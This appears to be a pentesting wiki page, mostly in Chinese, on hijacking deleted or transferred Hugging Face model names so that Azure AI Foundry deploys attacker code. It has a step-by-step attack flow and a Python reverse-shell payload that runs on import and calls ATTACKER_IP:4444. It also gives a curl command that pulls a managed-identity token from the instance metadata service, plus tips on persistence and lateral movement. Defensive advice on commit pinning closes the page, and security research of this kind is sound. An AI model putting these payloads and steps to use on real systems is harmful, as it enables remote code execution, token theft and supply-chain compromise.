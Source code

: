 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## 场景

- Azure AI Foundry Model Catalog 包含许多可一键部署的 Hugging Face (HF) 模型。
- HF model identifiers are Author/ModelName。如果某个 HF author/org 被删除，任何人都可以重新注册该 author 并在相同的 legacy path 发布具有相同 ModelName 的模型。
- 仅按名称拉取的 pipelines 和 catalogs（不做 commit pinning/integrity）会解析到攻击者控制的 repos。当 Azure 部署该模型时，loader 代码可能在 endpoint 环境执行，从而以该 endpoint 的权限获得 RCE。

Common HF takeover cases:
- Ownership deletion: 旧路径 404，直到 takeover。
- Ownership transfer: 在旧 author 存在时旧路径会 307 到新 author。如果旧 author 后来被删除并重新注册，重定向会失效，攻击者的 repo 将在 legacy path 提供服务。

## 识别可重用的命名空间 (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## 针对 Azure AI Foundry 的端到端攻击流程

1) 在 Model Catalog 中，查找在 HF 上原始作者被删除或转移（旧作者被移除）的 HF models。  
2) 在 HF 上重新注册被遗弃的作者并重新创建 ModelName。  
3) 发布一个包含在 import 时执行或需要 trust_remote_code=True 的 loader 代码的恶意 repo。  
4) 从 Azure AI Foundry 部署旧的 Author/ModelName。平台会拉取攻击者的 repo；loader 在 Azure endpoint 的 container/VM 内执行，从而以 endpoint 权限实现 RCE。

示例 payload 片段，在 import 时执行（仅作演示）：
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
注意
- AI Foundry deployments that integrate HF typically clone and import repo modules referenced by the model’s config (e.g., auto_map), which can trigger code execution. Some paths require trust_remote_code=True.
- Access usually matches the endpoint’s managed identity/service principal permissions. Treat it as an initial access foothold for data access and lateral movement within Azure.

## 后利用提示 (Azure Endpoint)

- 枚举环境变量和 MSI 端点以获取令牌：
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- 使用获取到的 token 检查已挂载的存储、模型工件，以及可达的 Azure services。
- 如果平台会从 HF 重新拉取，考虑通过留置被投毒的模型工件以实现 persistence。

## 针对 Azure AI Foundry 用户的防御性指南

- 从 HF 加载时按 commit 固定模型：
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- 将经过审查的 HF 模型镜像到受信任的内部注册表，并从那里部署。
- 持续扫描代码库和默认值/文档字符串/笔记本，以查找被硬编码的 Author/ModelName（被删除/已转移）；更新或固定（pin）。
- 在部署之前验证作者存在性和模型来源。

## 识别启发式 (HTTP)

- 已删除作者：作者页面 404；旧的模型路径在接管之前返回 404。
- 已转移的模型：在旧作者仍存在时，旧的模型路径会 307 重定向到新作者；如果旧作者后来被删除并重新注册，旧路径会提供攻击者内容。
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## 交叉引用

- 请参阅更广泛的方法论和供应链注意事项：

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## 参考资料

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}

